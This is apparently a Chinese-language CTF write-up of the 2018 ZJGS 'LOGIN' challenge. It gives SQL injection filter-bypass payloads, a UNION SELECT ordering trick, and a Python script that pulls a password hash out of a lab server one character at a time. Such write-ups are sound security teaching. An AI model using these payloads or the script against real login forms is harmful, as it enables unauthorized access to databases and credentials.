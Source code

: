 ```yaml
---
title: 2018ZJGSCTFwriteup
date: 2018-05-07 10:36:05
tags:
---
```

没人做那就只能自己写了。
<!--more-->
## [LOGIN](http://10.21.13.154:35353/)
### 1.进入网站后是一个登陆界面，先是随便输入用户名和密码，发现弹窗消息。
![image](http://ww3.sinaimg.cn/large/0069oIoUgy1fr2kur9kayj30c8041jr8.jpg)
根据提示要拿到flag就必须要先找到username。
开始先试了admin等一些常规的用户名发现都不行。那就思考后台php中的sql语句是怎么样的
根据绕过sql语句来得到username。
``` sql
select * from admin where username='' and password=''
```
### 2.猜测后台中的语句应该是这样的，那就来构造绕过这个使用' or 1=1#使得where后面的结果为真
返回查询结果。输入测试后发现，or ，=，where等词被过滤了。
![image](http://ww1.sinaimg.cn/large/0069oIoUgy1fr2l3u0hu4j30bt03amwz.jpg)
然后就思考另外的方法来使得where后面的条件为真，可以使用这些方法，'^1^1#,'||1#来绕过这些
得到两个重要的提示。
![image](http://ww4.sinaimg.cn/large/0069oIoUgy1fr2l88x3ihj30c503ha9w.jpg)
![image](http://ww1.sinaimg.cn/large/0069oIoUgy1fr2l8p6bxkj30bx037glf.jpg) 
知道了password就是flag经过md5加密后的内容那就需要来猜测password的值了
### 3.基于上面有username返回所以是一个回显的注入。那就可以构造如下sql语句来猜测password的名
``` sql
yt_ia_a_handsome_boy' union select 1,2,0x80 order by 3 desc#
```
### 4.由上面提示可以知道password是一串经过md5加密后的16进制字符串利用union select插入一行，并在password
即第三列插入的是16进制的字符串，根据第三列的大小对每行数据进行排序。执行完sql语句，根据页面回显的
数据一位一位来猜解password的内容。
显示结果如下：
当插入的16进制值大于password的值会返回如下内容
![image](http://ww3.sinaimg.cn/large/0069oIoUgy1fr2ltl5hu9j30bi02ywea.jpg)
当插入的内容小于password的值会返回username的值
![image](http://ww1.sinaimg.cn/large/0069oIoUgy1fr2lv97wbrj30bq034glf.jpg)
### 5.根据上面测试的情况用python写脚本如下
``` python 
# coding:utf-8

import requests

def makeStr(begin,end):
    str=""
    for i in range(begin,end):
        str+=chr(i)
    return str
def getPassword():
    url="http://10.21.13.154:35353/index.php"
    testStr = makeStr(48,127)
    username = "yt_ia_a_handsome_boy' union distinct select 1,2,0x{hex} order by 3 desc#"
    flag = ""
    for  _  in range(32):
        for i in testStr:
            data = {"username":username.format(hex=(flag+i).encode('hex')),"password":'1'}
            res = requests.post(url,data)
            if "yt_ia_a_handsome_boy" not in res.text:
                flag= flag+chr(ord(i)-1)
                print flag
                break
            else:
                print "[*]",i
if __name__== '__main__':
    getPassword()
```
### 6.运行后得到password的值
![image](http://ww3.sinaimg.cn/large/0069oIoUgy1fr2lznt8voj30eo09zjre.jpg)
[MD5j解码](http://www.cmd5.com/)后得到flag


